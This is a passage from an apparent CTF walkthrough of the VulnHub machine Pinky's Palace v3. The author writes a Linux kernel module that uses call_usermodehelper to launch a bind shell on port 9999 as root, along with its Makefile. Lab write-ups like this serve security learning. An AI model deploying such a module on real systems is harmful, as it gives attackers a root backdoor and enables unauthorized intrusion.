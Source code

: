![53ae09b5.png](/assets/images/posts/pinkys-palace-v3-walkthrough/53ae09b5.png)

Whoa! Looks like I need to write my own kernel module. I chanced upon this [tutorial](https://www.ibm.com/developerworks/library/l-user-space-apps/index.html) on invoking user-space applications from the kernel while searching for "kernel module usermode api" in Google.

To that end, I wrote a kernel module that invokes my old bind shell `/tmp/bindshell` to listen at `9999/tcp`.

<div class="filename"><span>root.c</span></div>

```c
#include <linux/module.h>
#include <linux/kernel.h>

int init_module(void)
{
  char *argv[] = { "/tmp/bindshell", "9999", NULL };
  static char *envp[] = {
    "HOME=/tmp/",
    "TERM=xterm",
    "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
  call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);

  return 0;
}

void cleanup_module(void)
{
  printk(KERN_INFO "Goodbye!");
}
```

I'll also need to create a `Makefile` following the `kbuild` process like so.

<div class="filename"><span>Makefile</span></div>

```
obj-m += root.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```


[1]: https://www.vulnhub.com/entry/pinkys-palace-v3,237/
[2]: https://twitter.com/@Pink_P4nther
[3]: https://www.vulnhub.com/